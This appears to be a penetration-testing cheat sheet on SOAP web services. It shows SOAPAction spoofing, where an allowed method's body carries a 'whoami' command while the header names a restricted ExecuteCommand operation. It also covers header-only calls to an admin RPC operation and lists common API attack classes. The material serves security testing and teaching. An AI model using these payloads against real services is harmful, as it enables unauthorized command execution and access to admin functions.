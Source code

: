 #### SOAPAction spoofing

 1. Specify a allowed method in body - e.g. `LoginRequest` with the Parameters for the restricted method (here `cmd`):  

```xml
<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:tns="http://tempuri.org/" xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/">
<soap:Body>
  <LoginRequest xmlns="http://tempuri.org/">
    <cmd>whoami</cmd>
  </LoginRequest>
</soap:Body></soap:Envelope>
```

 2. Specify the restricted method in the HTTP header:  
    `SOAPAction: "ExecuteCommand"`

If the web service determines the operation to be executed based solely on the SOAPAction header, we may bypass restrictions.

#### Pay attention to `style="rpc"` in the `soap:operation` tags: 

If you see for example the following lines in WSDL:

```xml
...
<soap:operation soapAction="urn:ws-user-account#getAdminInfo" style="rpc"/>
<input> 
  <soap:body use="encoded" namesapce="urn:ws-user-account" encodeStyle="http://schemas.xmlsoap.org/soap/encoding/"/>
</input>
...
```
You need to use the following header-line:

`SOAPAction: urn:ws-user-account#getAdminInfo`

Then get rid of all data within the `<soapenv:Envelope ...>`-tag and only use an empty tag in the body:

```xml
<soapenv:Envelope ...>
</soapenv:Envelope>
```

In RPC-style SOAP, the SOAPAction header can fully define the operation, making a body redundant.

#### API attacks

APIs can be vulnerable to the same attacks like as a website:

 - Information disclosure
 - SQLi
 - File uploads
 - LFI / RFI
 - XSS
 - CSRF / SSRF
 - XXE
 - RegExp DOS
 - etc.
